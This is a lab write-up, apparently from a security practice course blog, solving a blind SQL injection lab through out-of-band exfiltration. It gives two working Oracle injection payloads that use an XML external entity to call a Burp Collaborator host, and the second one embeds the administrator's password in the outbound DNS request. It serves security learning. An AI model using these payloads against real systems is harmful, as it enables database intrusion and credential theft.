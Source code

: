 ```yaml
---
layout: post
title:  "Blind SQL injection with out-of-band data exfiltration"
date:   2024-09-26 09:39:54 +0530
categories: [BSCP, SQLi]
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Solution

Same like previous lab, we have an application vulnerable to SQLI based out of band interaction vulnerability and let's take the same payload 

```sql
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//h1j5djyu3nv2dr3jkiyc733sajga410pp.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

In order to exfil the data, we need to slight change to the payload as per cheatsheet 

```sql
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||SELECT password FROM users WHERE username='administrator'||'.h1j5djyu3nv2dr3jkiyc733sajga410pp.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Sent the request, receives a status code of `200` 

![]({{ site.baseurl }}/assets/images/sqli57.png)

Checking the burp collaborator, Found that sqli query executed and got `password` in the collaborator response 

![]({{ site.baseurl }}/assets/images/sqli59.png)

Login into the `administrator` with the password and lab will be solved 

![]({{ site.baseurl }}/assets/images/sqli60.png)